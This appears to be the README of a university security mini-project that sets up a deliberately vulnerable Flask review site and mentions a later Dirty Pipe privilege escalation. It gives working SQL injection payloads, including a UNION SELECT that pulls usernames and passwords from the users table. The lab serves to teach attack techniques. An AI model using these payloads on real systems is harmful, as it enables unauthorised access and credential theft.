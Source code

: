 # INF8602 mini-projet

Fake website with SQL injection vulnerability for user credential retrieval, then Dirty Pipe exploit on the server.

## Setup

### Install the required packages
```bash
pip install flask sqlite3
``` 

### Run the Flask app
```bash
python app.py
```
### [Access the app](http://127.0.0.1:5000)


## Exploit SQL injection

Test the SQL injection in search bar, if it returns all reviews, it means the SQL injection is successful.
```sql
' OR 1=1 --
```

Exploit the SQL injection to get users:
```sql
a%' UNION SELECT NULL AS id, 'leaked' AS user, username AS title, password AS comment, 0.0 AS rating FROM users --
```



![alt text](image.png)
